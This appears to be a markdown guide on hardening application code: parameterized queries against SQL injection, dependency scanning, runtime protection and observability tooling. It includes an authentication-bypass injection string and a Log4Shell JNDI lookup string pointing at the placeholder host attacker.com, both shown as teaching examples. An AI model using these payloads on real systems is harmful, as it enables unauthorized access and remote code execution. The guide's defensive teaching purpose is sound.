


# 🧑🏻‍💻 **Workload and Application Code Security**

As you've secured the cloud, cluster, and containers, the next frontier is **application code**. This guide walks through four critical pillars to harden workloads:

- ✅ Secure coding patterns
- ✅ Dependency hygiene
- ✅ Runtime protection
- ✅ Observability in containerized environments

---

## 1️⃣ **Secure Coding: Preventing SQL Injection**

**What’s the risk?**  
SQL injection allows attackers to manipulate database queries by injecting malicious input. If your code directly inserts user input into SQL statements, it’s like letting someone write their own query.

**Example of a vulnerable query:**

```sql
SELECT * FROM users
WHERE username = 'user_input'
  AND password = 'password_input';
```

If `user_input = '' OR '1'='1'`, the query becomes:

```sql
SELECT * FROM users
WHERE username = '' OR '1'='1'
  AND password = '';
```

This always returns true—bypassing authentication.

**How to fix it:**  
Use _parameterized queries_ or _prepared statements_, which treat user input as data, not executable code.

```python
from sqlalchemy import text

stmt = text("SELECT * FROM users WHERE username=:user AND password=:pass")
result = engine.execute(stmt, {"user": user_input, "pass": password_input})
```

> 🧪 _Tip_: **Static analysis tools** like SonarQube or Codacy can scan your codebase for unsafe patterns before merging.

---

<div align="center" style="background-color:#fff; border-radius: 10px; border: 2px solid">
  
</div>

---

<div align="center" style="background-color: #141a19ff;color: #a8a5a5ff; border-radius: 10px; border: 2px solid">

| Tool      | Language Support               | Key Feature                        |
| --------- | ------------------------------ | ---------------------------------- |
| SonarQube | Java, JavaScript, Python, etc. | Highlights security hotspots       |
| ReSharper | .NET/C#                        | Integrates into Visual Studio      |
| Veracode  | Multiple                       | Cloud-based vulnerability scanning |
| Codacy    | JS, Python, Ruby, Java         | Inline code review with CI plugins |

</div>

> _Tip_: Integrate static analysis into CI/CD to catch unsafe patterns before merge.

---

## 2️⃣ **Dependency Hygiene: Third-Party Risk Management**

Modern apps rely on external libraries—each a potential attack vector if outdated or vulnerable.

### ⁉️**Why it matters:**

Your app likely uses open-source libraries (Flask, pandas, Jinja2, etc.). These dependencies can contain known vulnerabilities (CVEs) that attackers exploit.

### 🧪 Example risk

**Example risk:**  
A vulnerable version of `jinja2` could allow template injection, leading to remote code execution.

```python
from flask import Flask, request, jsonify
import requests
from sqlalchemy import create_engine, text
import pandas as pd
from jinja2 import Template

app = Flask(__name__)
engine = create_engine('sqlite:///test.db')
```

### 🔍 **How to protect:**

- Use scanners like **Snyk**, **OWASP Dependency-Check**, or **GitHub Dependabot**
- These tools compare your `requirements.txt`, `package.json`, or `pom.xml` against CVE databases
- They alert you and even auto-patch with pull requests

<div align="center" style="background-color: #141a19ff;color: #a8a5a5ff; border-radius: 10px; border: 2px solid;margin: 0 30px">

| Scanner                | Ecosystem            | Description                             |
| ---------------------- | -------------------- | --------------------------------------- |
| OWASP Dependency-Check | Java, .NET           | Matches manifest files to CVE databases |
| Snyk                   | JS, Python, Go, Java | Continuous monitoring + auto PRs        |
| GitHub Dependabot      | Multiple             | Native alerts + automated updates       |

</div>

### ✅ **Best practice:**

Automate scans on every pull request or nightly to catch issues early.

> _Warning_: Schedule scans on pull requests or daily to avoid silent drift into vulnerable states.

---

## 3️⃣ **Runtime Protection: Catching Exploits in Real Time**

### ⁉️ **Why static checks aren’t enough:**

Some vulnerabilities (like Log4Shell) only show up during runtime. You need tools that monitor behavior—not just code.

### ❌ **Example: Log4Shell**

```java
String userInput = "${jndi:ldap://attacker.com/a}";
logger.info("User input received: " + userInput);
```

This triggers a remote lookup and code execution.

### 🛡️ **Runtime defenses Tools:**

- **Datadog ASM**: Monitors app behavior and flags anomalies
- **AWS WAF / Azure WAF**: Blocks malicious requests at the edge
- **Falco / Sysdig Secure**: Detects suspicious system calls inside containers

> _Tip_: Runtime protection complements static analysis by catching anomalies during execution.

---

## 4️⃣ **Observability: Security Meets Performance**

### ⁉️ **Why it’s critical:**

You can’t secure what you can’t see. Observability helps you detect attacks, performance issues, and misconfigurations.

### 🔍 Key Capabilities

| Capability          | What it reveals                                          |
| ------------------- | -------------------------------------------------------- |
| System call tracing | File access, process spawning, container escape attempts |
| Resource metrics    | CPU/memory spikes from cryptojacking or DDoS             |
| Network monitoring  | Unexpected traffic between containers                    |

> _Note_ **Tools like Sysdig Secure** correlate logs, metrics, and traces to help you pinpoint root causes fast.

---

<div align="center" style="background-color:#fff; border-radius: 10px; border: 2px solid">
  
</div>

---

## ✅ **Final Checklist: Application Security Hygiene**

- [x] Use parameterized queries
- [x] Scan code with static analysis tools
- [x] Audit third-party dependencies regularly
- [x] Deploy runtime protection (WAF, ASM)
- [x] Monitor system calls, metrics, and traffic
